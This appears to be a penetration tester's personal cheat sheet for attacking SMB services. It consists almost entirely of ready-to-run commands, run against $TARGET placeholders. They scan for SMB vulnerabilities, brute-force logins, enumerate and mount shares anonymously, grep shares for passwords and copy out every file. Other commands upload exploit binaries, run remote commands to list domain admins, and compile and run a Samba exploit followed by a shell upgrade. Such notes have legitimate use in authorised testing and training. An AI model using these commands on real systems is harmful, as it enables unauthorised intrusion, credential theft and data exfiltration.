 ```yaml
---
category: Uncategorized
tags: []
---
```


#### Quick Wins (require creds)

[[zz._Gaining Shell Access (psexec.py)]]
[[zz._Gaining Shell Access (smbexec.py)]]
[[zz._Gaining Shell Access (wmiexec.py)]]

#### nmap vuln check:
```bash - kali
nmap --script smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-cve-2017-7494.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse,smb-vuln-regsvc-dos.nse,smb-vuln-webexec.nse -p445 $TARGET -Pn
```

#### SMB Mounting
```bash - kali
sudo apt install cifs-utils
```

```bash - kali
mkdir ./$SHARE
```

```bash - kali
sudo mount -t nfs $TARGET:/$SHARE/
```

```bash - kali
sudo mount -t cifs //$TARGET/$SHARE ./$SHARE -o user=,password=
```
OR
```bash - kali
sudo mount -t cifs //$TARGET/$SHARE ./$SHARE -o username=$USER,password=$PASSWORD,domain=$DOMAIN
```

```bash - kali
grep -R password ./$SHARE
```

[[TechLexicon/Penetration Testing/Reference/P3nT3sT/Grep]] for lootz.

```bash - kali
sudo umount ./mount
```

#### SMB Enumeration

==CHECK TO SEE IF YOU CAN UPLOAD FILES!==

Enum4linux-ng:
```bash - kali
cd /opt/ && sudo git clone https://github.com/cddmp/enum4linux-ng && cd -
```

```bash - kali
/opt/enum4linux-ng/enum4linux-ng.py $TARGET -A -C
```

nmap scans:
```bash - kali
nmap --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-services.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse -p445 $TARGET
```

```bash - kali
nmap --script smb-brute.nse -p445 $TARGET
```

smbmap:
```bash - kali
smbmap -H $TARGET -P 445
```

```bash - kali
smbmap -u null -p "" -H $TARGET -P 445
```

[[Port 139 445 - SMB ~#smbmap.py]]

List share and gain access with smbclient:
```bash - kali
smbclient -L \\\\$TARGET\\ -N -p 445
```

```bash - kali
smbclient -N //$TARGET/$SHARE
```

smbclient anonymous login:
```bash - kali
smbclient -L $TARGET -U " "%" "
```

```bash - kali
smbclient \\\\$TARGET\\scripts$ -U " "%" "
```

[[Port 139 445 - SMB ~#smbclient]]
#### smbmap.py
```bash - kali
smbmap -H $TARGET
```

```bash - kali
smbmap -H $TARGET -r 'home'
```

```bash - kali
smbmap -H $TARGET -r 'home\$USER'
```

### smbmap Downloading files:
```bash - kali
smbmap -H $TARGET --download 'home\$USER\file.txt'
```

#### smbmap Uploading files:
```bash - kali
smbmap -H $TARGET --upload exploit.exe 'home\$USER\'
```

```bash - kali
smbmap -H $TARGET -P 445 --upload exploit.so 'Share/exploit.so' 
```

```bash - kali
smbmap -u $USER -p $PASSWORD -d $DOMAIN_NAME -x 'net group "Domain Admins" /domain' -H $TARGET
```

#### smbclient

```bash - kali
smbclient -L \\\\$TARGET -N -p 445
```

Using smbclient without creds:
```bash - kali
smbclient \\\\$TARGET\\share -p 445
```

Using smbclient to list shares (authenticated):
```bash - kali
smbclient -L \\\\$TARGET -U "$USER" -p $PASSWORD
```

Using smbclient with creds:
```bash - kali
smbclient \\\\$TARGET\\spray -U "$USER" -p $PASSWORD
```

#### using smbclient to download all files:

```bash - kali
mkdir SMBLoot && cd SMBLoot
```

Unauthenticated:
```bash - kali
smbclient '\\\\$TARGET\\$SHARE'
```

```bash - kali
smbclient -N //$TARGET/$SHARE
```

Authenticated:
```bash - kali
smbclient --user $USER //$TARGET/$SHARE $PASSWORD
```

```bash - kali
mask ""  
```

```bash - kali
recurse ON  
```

```bash - kali
prompt OFF  
```

```bash - kali
mget *
```

```bash - kali
exit
```

```bash - kali
cd ..
```

```bash - kali
find SMBLoot/ -type f
```


==2nd example==
```bash - kali
smbclient //$TARGET/$SHARE
```

```bash - kali
RECURSE ON
```

```bash - kali
PROMPT OFF
```

```bash - kali
mget *
```

#### Low Level Samba Exploit
```bash - kali
searchsploit -m 10
```

```bash - kali
gcc -o exploit-samba 10.c
```

```bash - kali
./exploit-samba -b 0 $TARGET
```

```bash - kali
python -c 'import pty;pty.spawn("/bin/bash")'
```

#### Windows share local folder with everyone

```command prompt - target
net share cshare C:\$SHARE /GRANT:Everyone,FULL
```
  
#### Unsafe nmap script
```bash kali
sudo nmap --script=smb-enum* --script-args=unsafe=1 $TARGET
```

#### Responder - File upload attack
https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/
